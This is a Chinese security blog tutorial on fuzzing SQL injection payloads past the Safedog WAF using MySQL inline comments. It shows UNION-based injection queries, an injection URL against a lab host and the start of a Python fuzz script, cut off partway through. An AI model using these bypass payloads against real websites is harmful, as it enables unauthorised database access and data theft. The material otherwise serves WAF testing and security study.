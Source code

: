 [![](https://img.colabug.com/2018/02/0b5b7756251477ba95999e42718acbf2.jpg)](https://img.colabug.com/2018/02/0b5b7756251477ba95999e42718acbf2.jpg "Fuzz自动化Bypass软WAF姿势")

使用 mysql 联合查询步骤，模拟 SQL 注入回显数据

```
select * from new where id=1 union all select null,null;
select * from new where id=1 and 1=2 union all select null,null;
select * from new where id=1 and 1=2 union all select user(),null;
```

[![](https://img.colabug.com/2018/02/49eac71059c7f020b6046bdf3a3998d0.jpg)](https://img.colabug.com/2018/02/49eac71059c7f020b6046bdf3a3998d0.jpg "Fuzz自动化Bypass软WAF姿势")

这样也是能正常查询出来的

```
mysql> select * from new where id=1 and 1=2 union all select /*!user*//*!()*/,null;
```

****[![](https://img.colabug.com/2018/02/e60dfa7046a1d7f8bc90af0bbc54a562.jpg)](https://img.colabug.com/2018/02/e60dfa7046a1d7f8bc90af0bbc54a562.jpg "Fuzz自动化Bypass软WAF姿势")  
****

我们在浏览器上通过内联注释注入一下看看会不会被拦截，还是被拦截了，老版本的安全狗可以通过内联注释绕过所以咱们今天 Fuzz 自动化 Bypass 的思路就是结合这个内联注释，加一些特殊符号，以及 url 编码来进行对安全狗的绕过

```
http://192.168.30.129/fuzz/index.php?id=1/*!union*//*!select*/1,2
```

[![](https://img.colabug.com/2018/02/8573d0b0d997ca06e51cdfa2f00eaee7.jpg)](https://img.colabug.com/2018/02/8573d0b0d997ca06e51cdfa2f00eaee7.jpg "Fuzz自动化Bypass软WAF姿势")

****0×04** **Fuzz 自动化 bypass****
--------------------------------

代码比较简洁我就直接给上注释了这样看得清晰点，只要是在释符号里面就可以包括任意特殊的符号等, 挡住 WAF 的视线这样说更明白点。列如: /*!unionselect*/

Fuzz 脚本代码如下：

[![](https://img.colabug.com/2018/02/a8b469300e53479cceb411735cfaf56f.jpg)](https://img.colabug.com/2018/02/a8b469300e53479cceb411735cfaf56f.jpg "Fuzz自动化Bypass软WAF姿势")

注意底部我的 SQL 查询的页面中有 wait 这个字符, 没有 wait 的话你就看看” 正常的页面在有啥必出现的字符 改了就行或者在加个 else print （” 未过狗”）

**code 如下：**

#encoding=utf-8

#实现思路；

#不被拦截的页面上会出现字符 “wait”

#被拦截的不会，使用 for 循环请求并检查返回的页面中是否存在该字符即可。

import requests

#引入请求模块

url = ” [http://127.0.0.1/index.php?id=1](https://www.colabug.com/goto/aHR0cDovLzEyNy4wLjAuMS9pbmRleC5waHA/aWQ9MQ==) “;
